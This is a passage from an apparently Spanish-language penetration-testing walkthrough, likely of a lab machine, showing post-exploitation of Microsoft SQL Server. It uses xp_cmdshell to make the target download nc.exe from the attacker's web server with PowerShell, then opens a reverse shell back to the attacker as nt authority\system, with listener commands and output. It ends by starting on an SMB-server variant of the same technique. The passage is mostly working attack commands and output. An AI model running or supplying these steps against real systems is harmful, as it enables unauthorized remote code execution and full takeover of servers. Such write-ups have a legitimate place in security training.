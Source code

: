Abre un servidor de **Python** en donde tengas el **binario nc.exe**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Probemos el **cmdlet**:
```batch
SQL (sa  dbo@master)> xp_cmdshell powershell -c "Invoke-WebRequest -Uri "http://Tu_IP/nc.exe" -OutFile "C:\Temp\nc.exe""
output   
------   
NULL
```

Comprobemos si se descargó el binario:
```batch
SQL (sa  dbo@master)> xp_cmdshell "dir C:\Temp"
output                                               
--------------------------------------------------
...
...
...
03/07/2025  04:51 PM            59,392 nc.exe
```
Ahí está.

Abre una **netcat** con **rlwrap** en tu máquina:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Y envía una **Reverse Shell** utilizando el **binario nc.exe**:
```batch
SQL (sa  dbo@master)> xp_cmdshell "C:\Temp\nc.exe -e cmd Tu_IP 443"
```

Observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.150] 50015
Microsoft Windows [Versi�n 10.0.19045.2965]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```

<br>

<h3 id="impacketSMB">Creando Servidor SMB con impacket-smbserver, Ejecutando Binario nc.exe de Manera Remota para Obtener Reverse Shell y Leyendo Archivo Tipo ADS</h3>

Otra opción que podemos usar, es levantar un **servidor SMB** en nuestra máquina, para poder ejecutar el **binario nc.exe** de manera remota desde la máquina víctima.
